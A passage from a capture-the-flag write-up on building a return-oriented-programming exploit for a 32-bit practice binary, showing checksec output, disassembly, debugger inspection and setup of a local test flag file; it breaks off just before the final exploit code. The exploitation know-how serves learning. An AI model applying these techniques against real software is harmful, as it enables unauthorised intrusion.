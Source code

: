 And it will return us:

```
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 exploit.py
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/reisraff/workdir/challs/port-65144/port-65144': pid 2347
=========================
what the process returned
Enter your buffer: gotcha func1
gotcha func2
```

I could guess that the function2 have the same behavior of changing the value of `.bss` variable cause of this instruction:

```raw
80492d7:  c6 80 36 00 00 00 01  mov    BYTE PTR [eax+0x36],0x1
```

And finnaly we do the same for the function that has the `open` with the string `/code/ROP-me/flag.txt`, but in order to this next step works we have to have this file with the exactly path in our machine, so I will create:

```raw
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ sudo mkdir -p /code/ROP-me/
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ echo "FLAG TEST" | sudo tee /code/ROP-me/flag.txt
FLAG TEST
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ cat /code/ROP-me/flag.txt
FLAG TEST
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ sudo chmod 777 -R /code
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ ls /code/ROP-me/flag.txt  -l
-rwxrwxrwx 1 root root 10 Aug 31 22:08 /code/ROP-me/flag.txt
```

Now we are done to the next step, Let's remember how was the function:

<center><img src="post-assets/port-65144-ghidra-1.png" width="732" alt="ghidra" /></center>

OK the first two conditions I think will pass, and the last one depends on param1 value tha has to be a value that subtracting `0x01` from it should be equal `0x01`. Why `0x01` 'cause I just printed it out, and it is it:

```
gef➤  x/x 0x0804c035
0x804c035:  0x00000001
```

What value subtracting 1 is equal 1? This one I will let you find alone!

Now we have 3 arguments, we will need a `pop; pop; pop; ret;`, so the final exploit is:
